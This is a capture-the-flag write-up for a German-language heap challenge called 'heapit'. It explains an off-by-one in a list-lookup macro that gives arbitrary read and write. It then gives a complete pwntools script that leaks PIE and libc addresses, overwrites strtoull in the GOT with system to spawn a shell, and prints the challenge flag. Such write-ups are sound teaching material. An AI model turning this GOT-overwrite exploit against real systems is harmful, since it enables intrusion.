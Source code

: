 # Vulnerability

The program uses an allocation list to store the user input:
```c
#define SLOTS_PER_HEAP 256

struct allocation_list {
	allocation_t alloc[SLOTS_PER_HEAP];
	struct allocation_list *prev;
	struct allocation_list *next;
};
```

After analyzing the source code one can find the off by on in the `FIND_LIST` macro:
```c
#define FIND_LIST(list, idx)			\
	allocation_list_t *list = &first;	\
	while (idx > SLOTS_PER_HEAP) {		\
		if (!list) {			\
			puts("ungültige ID!");	\
			return;			\
		}				\
		list = list->next;		\
		idx -= SLOTS_PER_HEAP;		\
	}
```
If we enter an `idx` equal to 256, the while-loop exits and the following code will use the index 256 to access into the `alloc` buffer of the `allocation_list` with size 256. Since the buffer can only hold 256 elements, we have an access out of bounds and retrieve the `*prev` pointer.
```c
#define SLOTS_PER_HEAP 256

struct allocation_list {
	allocation_t alloc[SLOTS_PER_HEAP];
	struct allocation_list *prev; <---
	struct allocation_list *next;
};
```

And since `*prev` points to the `allocation_list` itself, accessing the 256th element will lead to us being able to read from and write into the first element of the `alloc` buffer. 

We can now write an arbitrary address into the first element of `alloc` buffer using `update(256)` and read from that address using `view(0, size)` and write to that address using `update(0, content)`, giving us arbitrary read and write. 

# Exploit
Since PIE is activated we first use the stack leak to leak an address from the binary. Now we read an address from the Global Offset Table to leak libc and afterwards I overwrote `strtoull` in the Global Offset Table with `system` from libc. As `strtoull` is used in the menu to process our input, we can input `/bin/sh` to get a shell.

# Solve Script
```python
from pwn import *
import warnings

warnings.filterwarnings(action='ignore', category=BytesWarning)

elf = ELF("./heapit_patched")
libc = ELF("./libc.so.6")

context.terminal = ("alacritty", "-e")
context.binary = elf

IP, PORT = "dbhchallenges.de", 30783

gdbscript = '''
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(IP, PORT)
    else:
        return elf.process()


# ----- Exploit ----- #
def create(size, content):
    p.sendline("1")
    p.sendline(str(size))
    p.sendline(content)
    p.recvline_contains(b"erfolgreich erstellt")

def view(idx, size):
    p.sendline("3")
    p.sendline(str(idx))
    p.sendline(str(size-1))
    p.recvuntil(b"du anzeigen? Inhalt: ")
    content = p.recvuntil("Optionen:").rstrip(b"Optionen:")
    return content

def update(idx, content):
    p.sendline("4")
    p.sendline(str(idx))
    p.sendline(content)
    p.recvuntil("Optionen:")

def read_qword(addr):
    update(256, p64(addr))
    leak = u64(view(0, 8))
    return leak

def write_qword(where, what):
    update(256, p64(where))
    update(0, p64(what))
   
def solve(p):
    p.recvuntil(b"It's dangerous to pwn alone. Take this: ")
    stack_leak = int(p.recvline().rstrip(b"\n").decode()[2:], 16)

    log.info(f"Leak: {hex(stack_leak)}")

    # leak pie by reading off the stack
    # I found the address on the stack via dynamic analysis using GDB
    pie_base = read_qword(stack_leak+0xe0) - 0x3dd8
    log.info(f"Pie leak: {hex(pie_base)}")
    elf.address = pie_base # set correct base to correctly determine GOT addresses in the following lines

    # leak libc by reading from GOT
    libc_base = read_qword(elf.got["strtoull"]) - 0x47520
    print(hex(elf.got["strtoull"]))
    libc.address = libc_base
    log.info(f"Libc leak: {hex(libc_base)}")

    # replace got strtoull with system from libc
    write_qword(elf.got["strtoull"], libc.symbols["system"])

    # `strtoull` is now overwritten with system@glibc
    # every menu option uses `strtoull` to parse user input, so lets go.
    p.sendline("1")
    p.sendline("/bin/sh")
    p.sendline("ls -al")
    p.recvline() # if we didnt get a shell, the program exit now
    sleep(0.2)
    p.interactive()

# We have to run the exploit multiple times since in the update() function, the lower 4 bytes of the 
# *prev pointer will be passed as size to fgets. And fgets interprets them as signed integer.
# Due to address space randomization, it can be happen that the lower 4 bytes represent a negative int.
for _ in range(10):
    p = start()
    try:
        solve(p)
    except:
        p.close()
        print("next try")

# => DBH{3v3n_5m411_bug5_4r3_c4t45tr0ph1c_1n_C._Ju57_u53_Ru57}
#                                            ^^^^^^ haha, kinda true
```
